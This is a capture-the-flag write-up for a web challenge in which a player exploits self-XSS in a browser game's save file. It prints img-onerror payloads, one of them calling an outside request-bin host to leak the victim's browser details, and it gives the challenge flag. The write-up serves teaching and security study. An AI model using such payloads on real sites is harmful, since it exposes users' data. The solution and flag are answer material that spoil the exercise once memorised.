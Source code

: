 # Writeup for `unnamed dragon challenge`

|  author  | category | value |
|----------|----------|-------|
| Ixbixbam |   web    |  200  |

I added a nice feature to this game that lets you use custom formatting, but when I asked the developers what they thought about it, they said it was vulnerable to XSS, and gave me a proof-of-concept save-game that proved that they could find out my browser! They also had the idea that someone could trick you into pasting in a malicious save game, which creates a popup asking you download some malware. 

Can you work out how to find what web browser I'm using if I paste the save game you give me at `/submit`? The flag is located where the web browser information would typically be.

Bonus: Do you think its worth the time for developers to fix this issue, and if so, how would you recommend solving it?


| cost |                                                                                                                                                                   content                                                                                                                                                                    |
|------|----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
|  0   | Have you bought and named your dragon yet?                                                                                                                                                                                                                                                                                                   |
|  0   | This challenge will be much easier if you check the website's source code using the Developer Tools and viewing the files in the Sources or Debugger tabs. You may find it helpful to find relevant code by Inspecting the element with the dragon name and seeing what JavaScript function it calls, or Inspecting the text import element. |

## Solution

<details>
<summary>Click here to reveal the solution!</summary>

### The Big Idea

Exploit a self-XSS vulnerability originating from a malicious save-game.

### Walkthrough

There are many different approaches to this challenge, which makes sense since it is so broad. I wanted to give an example of a large application like this because there's lots of traces and clues to pick up if you know where to look.

One approach:
When the game first opens, you will see that you can purchase a dragon for 200 coins, which will likely be the dragon that is `unnamed`, alluded to in the challenge title and the game name. We can purchase it in less than a minute of legitimate gameplay, and we can be confident that the challenge involves it because of how it is initially called the  `unnamed dragon`. 

Experimenting with it, we can see that it has the same name when the browser is refreshed, so the name must be stored persistently. Trying to add an injection straight away reveals that it is removed, so this would be the first time I'd open the DevTools to look at the website's code. 
![Pasted image 20241104213615](https://github.com/user-attachments/assets/2e9f7776-af2b-47f2-887f-76c767420d03)

To find out more information about how the text input works, you can press the `Pick an element from the page` button in the top right of the DevTools then click the text input. You can see that `onblur` it calls `saveDragonName` (I don't know why unfocusing an element is called a  `blur` event in HTML). If you go into the Debugger (known as Sources in Chromium browsers) and search all the files for `saveDragonName` using `Ctrl-Shift-F`, you can find my modification, which references a UNSW subject. 
![Pasted image 20241104214355](https://github.com/user-attachments/assets/f6e913ae-84f8-4028-8bed-13f873a9cdc7)

The script makes sure that `game.dragonName` is sanitised, and can't contain any nefarious HML tags, so that means we're out of luck, right? 

Not quite.

Even though the client validates the string, what's stopping us from changing `game.dragonName` ourselves? The console is quite convenient, and let's us type whatever JavaScript code we want to help us debug, so we can type `game.dragonName = "<script>alert('hello')</script>"`. After we save the game, refreshing the page greets us with.......... 

nothing.

I was genuinely confused at this point too, and thought there was a bug in my program. I did some [research](https://www.google.com/search?q=adding+script+tag+in+innerhtml+doesnt+execute) and found out that you [can't add a script tag to a document](https://www.danielcrabtree.com/blog/25/gotchas-with-dynamically-adding-script-tags-to-html) using the `.innerHTML` property, which does make sense. Helpfully, the same website gives us a lead to work out how to still perform XSS.
	But beware, this doesn't mean innerHTML is safe from cross-site scripting. It is possible to execute JavaScript via innerHTML without using `<script>` tags as illustrated on [MDN's innerHTML page](https://developer.mozilla.org/en-US/docs/Web/API/Element/innerHTML).

Using the MDN documentation, the following should inject JavaScript into the webpage: 
`game.dragonName = "<img src='x' onerror='alert(\"We are in!\")'>"`. 

![Pasted image 20241104224306](https://github.com/user-attachments/assets/1cca497b-f2c9-471a-9b2b-15e309e51d9c)


Now we have the issue of finding out what browser was used. As we were told about in lectures, we can use a service like [HTTP request bin](https://pipedream.com/requestbin) here that can let you see the logs for all the networks requests sent there. 
So if we run something like the following, we should get the request:
`game.dragonName = "<i>Innocent</i> dragon<img src='x' onerror='fetch(\"https://something-awesome.free.beeceptor.com\")'>"`

Running this locally found what web browser I was using in the `user-agent` HTTP header!
![Pasted image 20241104231334](https://github.com/user-attachments/assets/064e58f0-749b-4891-bd46-9027e5775c5e)

I sent [this save](./writeup-payload.txt) to the `/submit` page and obtained the flag:


![Pasted image 20241105000643](https://github.com/user-attachments/assets/8e0bc138-791f-4ead-911e-effbefa28e89)


Other ideas:
- The `.git` subdirectory is exposed, so you could see my latest commit which introduced the vulnerability. Alternatively, you could download and compare the files using `diff` to the ones on the official GitHub repository.
- Most web-games use base64 encoding, so you could probably make an educated guess it would use this method as well. Additionally, it starts with `eyJ` which encodes `{`, a very common character for base64 to start with because of how it stores JSON data in string form.
- You could use the _Application_ tab of the DevTools to see the data saved by the game. Most games use the same encoding as exporting and importing games, however, this game uses stringified JSON, which doesn't require any technical expertise to modify (after initially finding it). 
- Use a breakpoint to pause the script's execution during function that exports the game or the one that sanitises the name, and explicitly updating the variable in the console with one that contains malicious JavaScript. 
- You could further investigate the save game format by seeing all the properties it contains. The code tries to sanitise every string back into a custom Decimal type except for `dragonName`, which also indicates that this is the attack path. 
- If you didn't want to start the game normally, you could try to cheat yourself extra resources either manually by modifying the game object with `game.gold.mag += 1000`, or by finding save games online: the official GitHub repository conveniently has several for you to choose from.
- Is the regex vulnerable to an attack similar to the `adadminmin` one we saw in class, where a single round of replacement may still allow the blacklisted string? 


### Flag(s)

- `SCONES{cLi3nt_s1de_$anit1sati0n}`

</details>
